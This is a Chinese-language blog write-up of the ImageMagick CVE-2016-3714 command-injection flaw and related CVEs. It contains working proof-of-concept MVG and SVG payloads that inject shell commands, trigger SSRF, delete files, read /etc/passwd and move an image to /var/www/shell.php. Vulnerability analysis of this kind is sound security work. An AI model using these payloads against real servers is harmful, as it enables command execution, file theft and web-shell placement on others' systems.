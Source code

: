 ﻿---
title: CVE-2016-3714 – ImageMagick 命令执行简单总结
categories: Technology
tags:
	- 漏洞分析与总结
---


# CVE-2016-3714 – ImageMagick 命令执行简单总结

ImageMagick有一个功能叫做delegate（委托），作用是调用外部的lib来处理文件。而调用外部lib的过程是使用系统的system命令来执行的，导致命令执行的代码：
```shell
"wget" -q -O "%o" "https:%M"
%M ==> `https://example.com";|ls "-la`
```
验证：
```shell
$ convert 'https://example.com";|ls "-la' out.png
total 32
drwxr-xr-x 6 user group 204 Apr 29 23:08 .
drwxr-xr-x+ 232 user group 7888 Apr 30 10:37 ..
```

exploit.mvg
```shell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```
exploit.svg
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1"
xmlns="http://www.w3.org/2000/svg"; xmlns:xlink=
"http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la"
x="0" y="0" height="640px" width="480px"/>
</svg>
```
Execution:
```shell
$ convert exploit.mvg out.png
total 32
drwxr-xr-x 6 user group 204 Apr 29 23:08 .
drwxr-xr-x+ 232 user group 7888 Apr 30 10:37 ..
```
## 延伸扩展
1. CVE-2016-3718 - SSRF 服务器端发送http/ftp请求
    ssrf.mvg
    ```shell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(http://example.com/)'
    pop graphic-context
    ```

2. CVE-2016-3715 - File deletion
    delete_file.mvg
    ```shell
    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
    popgraphic-context
    ```
    验证：
    ```shell
    $ touch /tmp/delete.txt
$ convert delete_file.mvg out.png # deletes /tmp/delete.txt
    ```

3. CVE-2016-3716 - File moving
    file_move.mvg
    ```shell
    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'msl:/tmp/msl.txt'
    popgraphic-context
    ```
    /tmp/msl.txt
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="/tmp/image.gif" />
    <write filename="/var/www/shell.php" />
    </image>
    ```
    
4. CVE-2016-3717 - Local file read
    file_read.mvg
    ```shell 
    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'label:@/etc/passwd'
    pop graphic-context
    ```

## TODO List
- [ ] 利用gdb-peda对,delegates.c文件进行漏洞分析,属于二进制安全，暂时搁置！
- [ ] 整体的exp，只是分析了wordpress的poc，但是没有成功 



